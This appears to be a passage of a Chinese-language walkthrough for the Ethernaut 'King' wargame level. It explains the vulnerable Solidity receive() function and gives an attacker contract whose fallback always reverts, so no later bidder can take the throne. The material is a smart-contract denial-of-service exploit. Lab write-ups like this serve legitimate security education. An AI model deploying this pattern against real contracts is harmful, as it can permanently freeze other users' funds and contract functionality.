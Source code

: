 
## 总结
区块链上没有秘密。

<hr>

# 9 King
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0xb21Cf6f8212B2Ef639728Ae87979c6d63d976Ef2`。对其合约展开分析，其合约功能在于以下代码段：

```
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
当接收到外来转账时，如果发送金额大于当前奖金，即将发送金额发送给当前国王，更新奖金，而发送者将成为新的国王。
本关卡目的在于打破这一循环。

打破这一循环的入手点就在于该函数交互实际上是一个连续的过程。

1. 用户发送指定金额的以太。
2. 合约将以太转发给当前国王
3. 更新国王及奖金。

我们只要作为国王，拒不接受合约转来的奖金，整个过程即可回退。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```

contract KingAttacker {

    constructor() public payable{

    }

    function attack(address payable addr) public payable{
        addr.call.value(msg.value)("");
    }
    
    fallback() external payable{
        revert();
    }

} 
```
